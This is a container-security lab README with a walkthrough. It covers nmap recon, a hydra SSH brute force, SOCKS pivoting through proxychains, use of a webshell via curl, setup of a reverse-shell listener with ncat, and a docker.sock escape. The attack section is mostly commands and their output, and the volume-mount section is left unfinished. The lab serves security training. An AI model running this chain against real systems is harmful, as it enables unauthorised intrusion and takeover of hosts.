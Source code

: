 # Attack Container Simple Lab
This lab is made for testing attack container with 2 vulns, whichs are "Share network namespace" and "Insecure volumn mounts"

## Architecture


## Setup
### Create secret-public ssh key pair
```bash
mkdir -p ./ssh-key ./authorized_keys
ssh-keygen -t rsa -N "" -f ./ssh-key/id_rsa
cp ./ssh-key/id_rsa.pub ./authorized_keys/authorized_keys
chmod 644 ./authorized_keys/authorized_keys
chmod -R 777 ./ssh-key
chown nobody:nogroup ./ssh-key/id_rsa
```

### Run the lab
```bash
docker-compose up -d --build
```

#### Access to attacker
```bash
docker exec -it attacker /bin/bash
```

## Testing
1. From container `attacker` ping `helper`:
```bash
docker exec -it attacker ping 172.16.100.11
```

2. From `attacker` ping `victim` fail:
```bash
docker exec -it attacker ping 172.16.101.11
```

## Walkthrough
From `attacker`, we attack to the `helper` which we can assume that it is a public facing server. The `helper` has the same network as `victim` (share network namespace) -> so we can abuse this and pivot in to container `victim`. Finally, the container `victim` has "Insecure volumn mounting" vulnerability so we can escape the container and control the host.

### Share network namespace:
First, access the container `attacker`:
```bash
docker exec -it attacker /bin/bash
```

Next, we try to ping to `helper` to check the connection
```bash
root@attacker:/# ping helper
PING helper (172.16.100.11) 56(84) bytes of data.
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=1 ttl=64 time=0.391 ms
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=2 ttl=64 time=0.042 ms
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=3 ttl=64 time=0.041 ms
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=4 ttl=64 time=0.055 ms
^C
--- helper ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3083ms
rtt min/avg/max/mdev = 0.041/0.132/0.391/0.149 ms
root@attacker:/#
```

Recon the `helper`:
```bash
root@attacker:/# nmap -sC -sV -A -oA nmap/details -p `for i in $(nmap --min-rate 10000 -p- -oA nmap/allports helper | grep -E "^[0-9]" | awk -F/ '{print $1}'); do echo -n $i,; done` helper
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-12 21:27 +03
Nmap scan report for helper (172.16.100.11)
Host is up (0.00012s latency).
rDNS record for 172.16.100.11: helper.acsl_attacker_net

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 31:9d:b0:00:0c:d9:4d:22:fe:52:a2:8c:13:44:7d:f2 (ECDSA)
|_  256 0f:75:49:55:3d:14:62:00:d7:e1:89:75:1b:22:b4:a6 (ED25519)
MAC Address: BA:3A:8C:F4:DD:3E (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 4.15 - 5.8 (96%), Linux 2.6.32 - 3.10 (96%), Linux 5.0 - 5.5 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.3 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.12 ms helper.acsl_attacker_net (172.16.100.11)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.88 seconds
```

Try to brute force service `ssh` of `helper`:
```bash
root@attacker:/# hydra -l root -P /home/rock.txt ssh://172.16.100.11
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-12 21:30:49
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 14 tasks per 1 server, overall 14 tasks, 14 login tries (l:1/p:14), ~1 try per task
[DATA] attacking ssh://172.16.100.11:22/
[22][ssh] host: 172.16.100.11   login: root   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-12 21:30:51
```

Initial access to `helper`:
```bash
root@attacker:/# ssh root@helper
root@helper's password:
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon May 12 18:20:17 2025 from 172.16.100.10
root@helper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@helper:~#
```

`ifconfig` shows that the helper machine is part of two network families
```bash
root@helper:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.100.11  netmask 255.255.255.0  broadcast 172.16.100.255
        ether ba:3a:8c:f4:dd:3e  txqueuelen 0  (Ethernet)
        RX packets 134263  bytes 7912749 (7.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 134222  bytes 7416679 (7.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.101.10  netmask 255.255.255.0  broadcast 172.16.101.255
        ether ce:23:2b:c2:e3:39  txqueuelen 0  (Ethernet)
        RX packets 22  bytes 1688 (1.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8  bytes 504 (504.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Using ping sweep to scan for alive hosts
```bash
root@helper:~# for i in $(seq 1 254); do (ping -c 1 172.16.101.${i} | grep "64 bytes from" | grep -oE "([0-9]{1,3}[\.]){3}[0-9]{1,3}" &); done;
172.16.101.1
172.16.101.10
172.16.101.11
root@helper:~#
```
We can determine that the IP 172.16.101.1 is the gateway's IP, 172.16.101.10 is `helper`'s IP, therefore the 172.16.101.11 is the victim's IP.


Back to our `attacker` machine. We are creating **dynamic port forwarding leverages the SOCKS proxy**. This will deliver all the traffic through an ssh connection, via, given port to the destination server. Here we are forwarding all the traffics to the attacker machine
```bash
root@attacker:/etc# ssh -D 9050 root@172.16.100.11 -f -N
root@172.16.100.11's password:
root@attacker:/etc#
```

We are going to use the `proxychains`. Check if the port specified in “/etc/proxychains.conf” should be the same as dynamic port. 

Then we will scan the victim's IP, which is 172.16.101.11
```bash
root@attacker:/# proxychains nmap -sT -Pn 172.16.101.11
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-12 21:56 +03
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.101.11:3389 <--socket error or timeout!
....
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.101.11:5566 <--socket error or timeout!
Nmap scan report for 172.16.101.11 (172.16.101.11)
Host is up (0.00057s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds
```
We used the `-Pn` flag to skip host discovery. The reason why we cannot ping is that proxies do not support ICMP protocols. Their working OSI layers are different while proxychains can only proxy TCP connections.

Now we try to access the web service of `victim`
```bash
root@attacker:/# proxychains -q curl http://172.16.101.11 -I
HTTP/1.1 200 OK
Server: nginx/1.27.5
Date: Mon, 12 May 2025 19:01:12 GMT
Content-Type: text/html
Content-Length: 18
Last-Modified: Mon, 12 May 2025 17:53:46 GMT
Connection: keep-alive
ETag: "682235aa-12"
Accept-Ranges: bytes

```

To keep this lab simple, we can assume that we have discovered the webshell in `/test.php`
```
root@attacker:/# proxychains -q curl http://172.16.101.11/test.php?cmd=echo+"hellowordl!"
```

Exploit this and get the reverse shell directly from `victim` to our `attacker` machine. First, we have to setup a remote forwarding port again and listen for reverse shell connection
```bash
ssh -R :80:172.16.100.10:80 -R :1331:172.16.100.10:1331 root@helper -N -f
proxychains4 -q ./poc.sh 172.16.101.11
python3 -m http.server 80
ncat -lvnp 1331
```

Next, we send the revershell payload to `victim`
```bash
root@attacker:/# proxychains -q curl http://172.16.101.11/test.php?cmd=<<rev_shell_payload>>
```

Finally, we are into the `victim` machine

### Insecure volumn mounting
...
```bash
./docker -H unix:///var/run/docker.sock ps
```






